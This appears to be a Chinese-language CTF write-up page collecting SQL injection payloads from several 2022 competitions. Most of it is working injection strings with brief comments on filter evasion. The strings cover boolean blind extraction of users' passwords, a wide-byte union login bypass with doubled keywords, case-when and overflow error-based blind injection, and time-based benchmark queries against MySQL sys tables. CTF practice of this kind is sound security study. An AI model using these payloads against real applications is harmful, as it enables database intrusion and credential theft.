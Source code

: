 ### 2022DASCTF2022.07赋能赛

这里考的还是一个布尔盲注

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364340707-2e6f4b16-5f0f-41fb-b73d-ca5751b36ab0.png#averageHue=%23f3f3f3&id=HB96j&originHeight=140&originWidth=516&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```python
paylaod = "2 and ascii(substr((select group_concat(password) from users),{},1))>{}".format(i, mid)  这个是我看wp的，神奇，上面明明已经ban了逗号了
我把上面的payload改成了下面
paylaod = "2 and ascii(substr((select group_concat(password) from users) from 1 for 1))>{}".format(i, mid)
```

### 2022第五空间初赛

#### 5_easylogin

建立虚拟表直接登录。后台逻辑是MD5比较。有类似原题

```python
username=admin%df%27ununionion%0aseselectlect%0a66,66,0x3437626365356337346635383966343836376462643537653963613966383038#&password=aaa

0x3437626365356337346635383966343836376462643537653963613966383038的16进制解码是aaa的md5的值
```

#### 5_web_Eeeeasy_SQL

还是老常客，case when注入

```python
password="or(case when (binary username> ".replace(" ","\\x09")+result+") then 1 else 9223372036854775807+1 end)#".replace(" ","\\x09")

password=f'or(case(instr(binary(password),0x{t}))when(1)then(cot(0))else(1)end)#'

password="or pow(2-(case when),9999999999)#"
```

### 2022第五空间决赛easysqli

```python
3'/**/union/**/select/**/1,concat(0x7e,(select/**/group_concat(password)/**/from/**/users),0x7e),3/**/or/**/'3'='3
```

### 2022强网拟态popsql

```python
password= 1'or/**/if((select/**/strcmp(ord(right((select(group_concat(table_name))from(sys.sch 
ema_table_statistics)),{_})),{i})),1,benchmark(5000000,sha(1)))/**/or'1

password=f"1'or/**/if((select/**/strcmp(ord(right((select(group_concat(query))from( 
sys.x$statement_analysis)),{_})),{i})),1,benchmark(5000000,sha(1)))/**/or'1
```
